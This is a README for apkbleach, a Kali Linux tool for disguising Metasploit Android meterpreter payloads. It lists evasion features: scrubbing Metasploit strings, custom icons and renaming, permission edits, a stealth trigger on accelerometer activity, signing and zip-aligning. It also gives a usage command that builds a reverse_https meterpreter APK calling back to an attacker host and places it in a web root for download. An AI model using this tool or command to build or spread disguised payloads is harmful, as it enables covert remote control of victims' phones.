 # apkbleach_2.0
The newest release of apkbleach

**About:**

This software was developed specifically for Kali-Linux to remove the obvious fingerprints of metasploit through out a android PAYLOAD along with assisting the user in making PAYLOAD.apk more installable across a wider range of devices.

**Features:**

1) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

2) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

3) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

4) Renames the application to the name you put chose as the ouput file

5) Scrubs the entire application of any mentions of the name "metasploit" or "stage". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

6) Adds padnops to PAYLOAD

7) Signs apk with jarsigner. msfenom produces unsigned apps

8) Zip aligns apk

9) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk

 apkbleach --list-payloads
 apkbleach --list-icons
 apkbleach --clear-cache

optional arguments:
  -h, --help            show this help message and exit
  -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
  -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
  -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
  -o [output/path/for/apk]
                        Path to output apk
  --edit-permissions    Enables permission editing in apk's manifest
  --list-payloads       List available icons
  --list-icons          List available icons
  --clear-cache         Allows prompt whether to keep package maintainers version apktool
